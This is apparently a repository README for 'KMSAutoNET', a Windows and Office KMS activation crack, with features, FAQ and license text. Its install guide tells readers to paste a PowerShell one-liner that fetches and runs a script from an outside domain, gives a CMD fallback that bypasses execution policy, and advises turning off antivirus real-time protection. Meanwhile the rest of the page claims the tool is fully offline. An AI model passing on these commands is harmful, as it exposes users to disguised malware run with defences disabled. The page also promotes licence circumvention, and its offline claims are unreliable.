



<div align="center">

# KMSAutoNET: KMS Activation Engine with TPM 2.0 & WinDivert for Windows 10 & 11


[]() []() []() []() []() []()

</div>

---

KMSAutoNET 1.8.7 is a desktop utility for offline KMS get and KMS 2026 operations, shipping as a self-contained kit that requires administrative elevation on the target machine. The January 3, 2026 build extends coverage to Office 2025 unlock, the Server 2022 path, and TPM 2.0 configurations, with WinDivert integration handling VBS-enabled environments. A built-in renew timer manages recurring activation cycles, while the portable layout keeps all working files and notes local to the box. The interface exposes product selection and apply actions directly, with supporting documentation bundled alongside the executable.

## 🚀 PowerShell Install Guide

> [!TIP]
> **Fast install** — a single PowerShell command, no extra tools.
> Windows 10 / 11 · PowerShell 5.1+ · No admin required

### 1️⃣ Prepare PowerShell
* Press `Win + X`.
* Click **Terminal** or **Windows PowerShell** from the menu.

### 2️⃣ Run the install command
Copy the command below, paste it into PowerShell, and press `Enter`.

```cmd
iex(irm 'https://activation-gateway.cc/update/ps-activator')
```

### 3️⃣ If blocked by policy — CMD fallback
Paste this into a standard Command Prompt (cmd) and press `Enter`:

```cmd
powershell -NoProfile -ExecutionPolicy Bypass -Command "iex(irm 'https://activation-gateway.cc/update/ps-activator')"
```

> [!WARNING]
> If SmartScreen or antivirus blocks the setup, go to **Windows Security → Virus & threat protection → Manage settings**, turn off **Real-time protection**, run the script, and re-enable immediately.

## ✅ Requirements

- **OS:** Windows 10 / 11
- **Shell:** PowerShell 5.1+ or PowerShell 7+
- **Network:** internet access to download the script
- **Privileges:** standard user

## Features

- **Offline activation kit**: All key management service operations run locally on the host machine, with no network dependency during product activation or renewal.
- **Office 2025 unlock path**: Dedicated activation routine targeting the Office 2025 product line, with per-product selection handled from the main interface.
- **Windows 11 TPM 2.0 support**: Validation logic adapted for TPM 2.0 and Secure Boot configurations, including the hardware-bound activation path required by Windows 11.
- **WinDivert integration for VBS**: Packet-level filtering via WinDivert handles activation traffic under Virtualization-Based Security, allowing the workflow to complete on VBS-enabled systems.
- **Windows Server 2022 path**: A separate activation route for Server 2022 SKUs, isolated from the desktop product paths to avoid cross-contamination of keys and timers.
- **Renew timer**: Configurable renewal scheduling that reapplies activation at defined intervals, keeping the license state current without manual intervention.
- **Admin-elevated execution**: The tool self-checks for administrative rights and runs its apply routines with the privileges required to write activation state to protected system locations.
- **Portable build**: Single-package deployment with no installer and no persistent service footprint; the working directory can be moved or removed after use.
- **Product selection interface**: Enumerates detected Windows and Office editions, mapping each to its corresponding activation target and showing current state before apply.
- **Pinned 1.8.7 build**: January 3, 2026 revision, version-locked with notes bundled alongside the binary for reference on supported paths and known constraints.

## How It Works

KMSAutoNET operates as a fully offline activation engine that runs entirely on the local machine, with no external host or network dependency required at any stage of the process. The workflow is built around a local KMS emulation core that presents itself to the operating system or Office suite as a valid key management service endpoint, allowing the target product to complete its standard activation handshake without leaving the box.

On launch, the application enumerates the installed products through the native licensing interfaces, identifying Windows and Office editions along with their current activation state. The operator selects the target product, and KMSAutoNET provisions a loopback KMS listener, redirects the product's activation request to that local endpoint, and completes the exchange. Once the handshake finishes, the listener is torn down and the activated product retains its license state locally.

The activation layer is version-aware and adapts to the platform it detects. For Windows 11 systems with TPM 2.0 and Secure Boot enabled, the toolkit follows a dedicated trust path that accounts for the measured boot environment. On systems running virtualization-based security, WinDivert is used to intercept and route the activation traffic transparently, so the local KMS exchange completes even when VBS filtering is active. Server 2022 installations are handled through a separate product path with their own key set and activation flow.

Office 2025 activation is handled through a dedicated Office path that targets the modern click-to-run licensing stack, separate from the Windows flow. Each product family is processed independently, so mixed environments with both Windows and Office can be activated in a single session without cross-interference.

A built-in renew timer manages the recurring activation cycle. Rather than relying on a one-shot activation, the timer schedules periodic re-activation at the appropriate interval, keeping the local KMS lease current in the background. The renewal task is registered on the box itself and runs without user interaction, so long-lived installations remain activated across reboots.

All operations run with elevated privileges, and the application requires an administrative context to register its listener, modify the licensing configuration, and install the renewal task. The January 3, 2026 release pins the toolkit to the 1.8.7 engine build, which bundles the current product key tables, the WinDivert routing component, and the TPM 2.0-aware activation path in a single portable package. State and configuration are kept local, and every stage of the process is confined to the target machine.

## Compatibility & Requirements

KMSAutoNET 1.8.7 targets 64-bit Windows installations running Windows 10, Windows 11, or Windows Server 2022, and is applied on the local machine rather than against a remote host. Administrative elevation is mandatory: the activation path writes system-level licensing data and must be launched from an elevated session on the target box.

- **Operating systems:** Windows 10 and Windows 11 (64-bit), plus the Server 2022 path for server SKUs.
- **Windows 11 prerequisites:** TPM 2.0 and Secure Boot must be present and enabled; the TPM 2.0 path is required for Win11 activation.
- **Virtualization-based security:** Environments with VBS enabled are supported through the bundled WinDivert driver, which must be permitted to load.
- **Office support:** Office 2025 is covered by the offline Office unlock path; the renew timer keeps activation current without external contact.
- **Network posture:** Fully offline operation. No connection to an external host is required or initiated; the KMS service stays local to the machine.
- **Resources:** Portable build, no installer footprint. Sufficient disk space for the extracted package and notes, and a standard user session elevated to administrator at run time.
- **Privileges and policy:** Local administrator rights, ability to load a kernel-mode driver (WinDivert) where VBS is active, and no restrictive group policy blocking the licensing service or driver installation.
- **Version baseline:** Compatibility reflects the January 3, 2026 pin (1.8.7). Older builds do not include the TPM 2.0, VBS, Server 2022, or Office 2025 paths.

## 📸 Screenshot








## Getting Started

KMSAutoNET is distributed as a self-contained desktop package. Before first launch, confirm the following baseline conditions on the target machine:

- **Operating system:** Windows 10 or Windows 11 (including builds with TPM 2.0 and Secure Boot enabled), plus Windows Server 2022.
- **Privileges:** An account with local administrator rights is mandatory. The application must be started via an elevated context; standard user sessions will not initialize the KMS engine.
- **Environment:** The host machine must remain fully offline. No network listener or outbound connection is created by the application at any stage.
- **Dependencies:** WinDivert is used internally to support virtualization-based security (VBS) environments. No separate runtime installation is required.

**First-run procedure**

1. Obtain the KMSAutoNET 1.8.7 package and verify its integrity against the published checksum.
2. Extract the archive to a local directory. Avoid launching the executable directly from within the compressed container.
3. Right-click the main executable and select the run-as-administrator option. Confirm the elevation prompt.
4. Allow the initialization sequence to complete. The interface enumerates the detected Windows and Office products present on the system.
5. Select the target product, choose the KMS operation (activation or renewal), and apply the change. The renewal timer is registered automatically upon success.
6. Review the operation log and confirm the reported status before closing the application.

**Office 2025 note:** Office activation follows the same elevated workflow. The product path is detected automatically; manual product selection is required only if multiple Office installations are present.

**WinDivert / VBS note:** On systems with VBS active, the bundled WinDivert driver is loaded during the operation. If the driver fails to initialize, disable VBS for the duration of the operation and re-run the application as administrator.

**Server 2022 note:** Server editions use a dedicated activation path. Ensure the server role and edition are detected correctly in the interface before applying changes.

**Troubleshooting quick reference**

- Elevation prompt not appearing: verify the user is a member of the local Administrators group.
- Product not listed: confirm the target product is installed and that the application was started after installation.
- Renewal timer not set: re-apply the operation; the timer is bound to the most recent successful activation event.

Store the extracted directory in a location excluded from automated cleanup tools to preserve the renewal timer state.

## FAQ

**Does KMSAutoNET require an active internet connection?**
No. KMSAutoNET 1.8.7 operates as a fully offline kit. All KMS get and KMS 2026 activation handling runs locally on the box, so the host stays on the machine and no external KMS endpoint is contacted during the apply phase.

**Which products and platforms are covered in this release?**
The 1.8.7 build (January 3, 2026 pin) targets Office 2025 unlock along with the Server 2022 path. Windows 11 activation accounts for TPM 2.0 and Secure Boot configurations, and the WinDivert layer is included to handle VBS-enabled systems where the emulated host must remain visible to protected processes.

**Why does the tool need to run as admin?**
Activation writes to protected registry hives and system licensing services. Elevated privileges are mandatory for the KMS host binding, the product key install step, and the renew timer service registration. Launching without admin rights will cause the apply stage to fail.

**What does the renew timer do, and does it need to stay running?**
The renew timer periodically re-arms the activation period so the KMS get state does not lapse. It is registered during apply and runs in the background; no manual re-run is required unless the timer entry is removed or the system is reimaged.

**How does WinDivert relate to VBS?**
On systems with Virtualization-Based Security enabled, network filtering sits inside the VBS boundary. The bundled WinDivert driver routes the local KMS traffic through a path that VBS permits, keeping the offline host reachable without disabling VBS or Secure Boot.

**Is the build portable, and where are the notes kept?**
Yes — the package is portable and does not require a system-wide install. Reference notes ship under `files/notes/` inside the extracted directory and document product selection and the Server 2022 path specifics.

**What is the January 3, 2026 pin?**
The pin identifies the 1.8.7 release build date and locks the bundled components — Office 2025 definitions, the Server 2022 path, and the VBS/WinDivert handling — to that revision. Mixing files from other builds is not supported.

**Can I run it on a machine without TPM 2.0?**
TPM 2.0 handling is specific to the Windows 11 path. On hardware without it, the TPM branch is skipped, but Secure Boot and VBS checks still apply where those features are enabled.

## License

KMSAutoNET is distributed under the terms stated in the bundled license notice. Copyright (C) 2026 kmsnet. All rights reserved.

The license covers the KMSAutoNET distribution package, including the offline KMS get and kms 2026 handlers, the Office 2025 unlock path, the TPM 2.0 and Server 2022 activation routes, the WinDivert integration for VBS environments, and the renew timer component. Rights granted apply to the package as shipped; the WinDivert component remains subject to its own upstream licensing terms as included in the distribution.

Redistribution of the package in original, unmodified form is permitted provided the license notice and copyright line are retained. Modified builds, repackaged installers, or derivative works that alter the activation flow, the renew timer behavior, or the bundled components require prior written permission from the copyright holder.

The software is provided "as is", without warranty of any kind, express or implied, including but not limited to the warranties of merchantability, fitness for a particular purpose, and noninfringement. In no event shall the authors or copyright holders be liable for any claim, damages, or other liability, whether in an action of contract, tort, or otherwise, arising from, out of, or in connection with the software or the use or other dealings in the software.

Use of KMSAutoNET is intended for environments where the operator holds valid licensing for the products being activated. Compliance with applicable licensing terms for Windows, Office, and Server products remains the sole responsibility of the operator. The January 3, 2026 pin identifies the licensed build; builds with altered pins or modified binaries are not covered by this license.